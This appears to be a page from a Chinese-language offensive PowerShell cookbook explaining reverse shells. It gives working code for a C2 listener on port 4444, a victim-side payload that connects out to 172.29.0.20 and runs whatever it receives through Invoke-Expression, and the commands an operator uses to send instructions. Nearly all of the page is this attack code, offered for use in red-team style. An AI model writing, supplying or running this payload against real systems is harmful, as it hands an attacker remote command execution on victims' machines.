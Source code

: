 你想在远程系统上打开一个反向 Shell。

反向 Shell 是红队员用来建立连接到远程系统的 Shell，无需发起远程会话。在反向 Shell 的情况下，通常会在受害者系统上存储一个有效负载。一旦该有效负载被执行，受害者会建立到由红队员指定的服务器的连接，通常在该服务器上有一个监听器等待传入的连接。

#### 解决方案

要通过 PowerShell 重现此操作，首先在 C2 服务器上创建并启动监听器：

```
$listener = New-Object System.Net.Sockets.TcpListener([System.Net.IPAddress]::Any, 4444)
$listener.Start()
$client = $listener.AcceptTcpClient()
```

一旦监听器启动，它会等待连接，并立即接受连接，并将会话存储在`$****client`变量中。

让**受害者机器**执行你的有效负载。可能会是这样的形式：

```
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect("172.29.0.20", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
while($true) {
    $data = ""
    while($stream.DataAvailable) {
        $bytes = New-Object Byte[] 1024
        $count = $stream.Read($bytes, 0, 1024)
        $data += [System.Text.Encoding]::ASCII.GetString($bytes, 0, $count)
    }
    if ($data) {
        Invoke-Expression $data
        $data = ""
    }
}
$writer.Close()
$reader.Close()
$client.Close()
```

这段代码创建一个新的 TCP 套接字，连接到`172.29.0.20` IP 地址上的`4444`端口，一旦连接成功，它会等待输入。客户端现在可以读取传入的命令或写入命令行。

再次，在 C2 服务器上，你现在可以通过流发送命令：

```
$stream = $client.GetStream()
$bytes = [System.Text.Encoding]::ASCII.GetBytes("Write-Host 'Hello world!'")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Flush()
```

一旦需要终止连接，只需从 C2 服务器发送以下命令：

```
$client.Close()
```
